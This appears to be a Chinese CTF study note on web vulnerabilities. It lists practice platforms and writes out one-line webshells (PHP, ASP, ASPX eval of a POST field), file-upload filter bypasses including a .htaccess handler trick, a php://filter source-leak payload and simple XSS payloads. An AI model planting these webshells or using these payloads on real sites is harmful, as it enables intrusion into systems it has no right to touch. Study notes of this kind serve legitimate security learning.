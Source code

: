 # WEB学习笔记


## 实战平台

- bugku
- 实验吧
- Jarvis OJ
- 国外的XSS测试：prompt.ml/0
- 国外的sql注入的挑战网站：redtiger.labs.overthewire.org

## 常见WEB漏洞

- **XSS**	
- 文件包含/上传
- **SQL注入**	
- **反序列化**
- CSRF	
- 未授权访问
- SSRF	
- 目录遍历
- 命令执行	
- 业务逻辑漏洞
- XEE

## 文件包含/上传
### 一句话木马
- php版本:	<?php eval($_POST["pwd"]);?>
- javascript:	<script language="php">@eval_r($_POST['pwd'])</script>
- asp:	<% eval request("pwd") %> 或 <%execute(request("pwd"))%> 
- asxp:	<%@ Page Lanuage="Jscript"%><%eval(Request.Item["pwd"])%>

### 1.前端检查

- 先上传jpg文件，BurpSuite中修改后缀名（将jpg改回php）绕过
- 修改文件后缀名为php3\php4\php5\phtml绕过

### 2.截断
当数据包内存在文件上传路径时，将路径末尾改为0x00，可以绕过对后面文件的检查

### 3.扩展名检查黑名单
- 利用Apache漏洞（自动略过无法解析的扩展名），将文件扩展名编辑为.php.abc
- .htaccess
在txt中写入

		<FilesMatch "attack"> SetHandler application/x-httpd-php </FilesMatch>
然后cmd中：

		ren 2.txt .htaccess
上传此文件，再上传jpg（php）,连接attack.jpg

- 利用大小写(需要win系统)
- 

??: 如何查看apache配置

## sql注入


## XFF/refer伪造
|:--:|:--:|
|X-Forwarded-For|Client, proxy1, proxy2 ...|
|Referer|......|

## php-fillter 泄露源代码
参考 *https://blog.csdn.net/qq_29419013/article/details/81201494*
phpfillter: 
?page=php://filter/read=convert.base64-encode//resource=index
查看index.php的源码



## XSS
###反射型XSS 
直接注入代码执行
常见有：
- 普通代码：<script>alert("Hello")</script>
- 截断代码：1' - alert("Hello") - '  (img标签)
- 错误执行：100'onerror=alert("Hello")>

